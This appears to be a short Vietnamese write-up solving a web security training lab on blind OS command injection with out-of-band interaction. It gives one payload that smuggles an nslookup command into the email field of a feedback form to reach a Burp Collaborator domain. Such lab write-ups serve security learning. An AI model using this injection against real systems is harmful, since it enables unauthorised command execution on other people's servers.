


### Giải quyết
- Tương tự như lab `Blind OS command injection with output redirection`. Tuy nhiên phòng thí nghiệm này không thể sử dụng chuyển hướng output mà có thể tương tác với domain bên ngoài, và sử dụng nslookup để làm điều này.
- Thực hiện submit feedback và bắt request chuyển tới Burp Repeater.
- Sử dụng Burp Collaborator client tạo 1 domain sử dụng cho command nslookup
- Payload: `email=aaaa%40gmail.com;nslookup+gzj6k6jhhftwyxy7ag01cq9r6ica0z.burpcollaborator.net;#&subject=...` 

###### Solved!